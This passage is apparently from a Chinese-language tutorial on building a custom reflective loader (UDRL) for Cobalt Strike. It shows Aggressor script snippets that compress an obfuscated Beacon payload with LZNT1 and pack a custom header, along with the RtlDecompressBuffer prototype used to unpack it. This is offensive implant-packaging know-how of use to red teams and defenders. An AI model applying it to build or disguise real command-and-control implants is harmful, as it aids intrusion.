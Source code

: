 

### 2.压缩数据

CobaltStrike为我们在Sleep语言重写了LZNT1压缩算法，并集合在`lznt1.cna`的`lznt1_compress`函数中，我们可以在Aggressor脚本中调用此函数来对遮掩后的Beacon进行压缩

```
$compressed_buffer = lznt1_compress($pe_header_data . $input_dll_pe_sections, $status);
```



在UDRL中，我们使用`RtlDecompressBuffer`函数对数据进行解压缩，其函数原型如下所示

```cpp
NT_RTL_COMPRESS_API NTSTATUS RtlDecompressBuffer(
  [in]  USHORT CompressionFormat,         // 输入参数: 指定压缩数据的格式，例如 COMPRESSION_FORMAT_LZNT1。
  [out] PUCHAR UncompressedBuffer,        // 输出参数: 指向一个缓冲区，该缓冲区用于存储解压缩后的数据。
  [in]  ULONG  UncompressedBufferSize,    // 输入参数: 指定UncompressedBuffer缓冲区的大小，以字节为单位。
  [in]  PUCHAR CompressedBuffer,          // 输入参数: 指向包含要解压缩的压缩数据的缓冲区。
  [in]  ULONG  CompressedBufferSize,      // 输入参数: 指定CompressedBuffer缓冲区中压缩数据的大小，以字节为单位。
  [out] PULONG FinalUncompressedSize      // 输出参数: 指向一个变量，该变量在函数返回时包含解压缩数据的实际大小
);
```



由上述函数原型可知，函数的调用需要压缩数据和存放解压缩数据的大小作为参数，此处需注意的是，存放解压缩数据的空间最好大点，从而防止缓冲区溢出报错，因此aggressor脚本中，我们使用原始Beacon的大小来作为存放解压缩数据的大小

```perl
# 存放解压缩数据的大小
$raw_file_size = strlen($input_dll);

# 压缩数据的大小
$compressed_buffer = lznt1_compress($pe_header_data . $input_dll_pe_sections, $status);
$compressed_file_size = strlen($compressed_buffer);

# 自定义UDRL头
$udrl_header_data = pack(
    "I-I-I-",
    $compressed_file_size,  # 压缩数据大小
    $raw_file_size,  # 解压缩数据大小
    $loaded_image_size, # 加载beacon的大小
);
```



由于`PE_HEADER_DATA`结构已经被压缩了，我们需要在Aggressor脚本中创建一个`UDRL_HEADER_DATA`来存放压缩数据和解压缩数据的大小值

```perl
$udrl_header_data = pack(
    "I-I-I-",
    $compressed_file_size, 
    $raw_file_size,
    $loaded_image_size,
);
```
